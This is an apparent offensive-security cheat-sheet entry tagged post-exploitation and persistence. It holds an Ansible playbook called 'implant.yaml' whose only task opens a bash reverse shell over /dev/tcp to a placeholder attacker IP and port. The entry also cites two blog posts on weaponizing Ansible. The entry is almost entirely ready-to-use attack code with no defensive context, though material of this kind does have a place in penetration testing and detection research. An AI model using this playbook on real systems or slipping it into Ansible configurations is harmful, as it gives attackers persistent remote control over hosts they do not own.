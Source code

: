 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Ansible Playbook

```
$ cat implant.yaml
- hosts: localhost
  tasks:
  - name: revshell
	shell: bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'
```

---
## References

- [Rio Asmara Suryadi: Ansible Yml file for Reverse Shell](https://rioasmara.com/2023/10/08/ansible-yml-file-for-reverse-shell/)

- [Rio Asmara Suryadi: Ansible Playbook Weaponization](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/)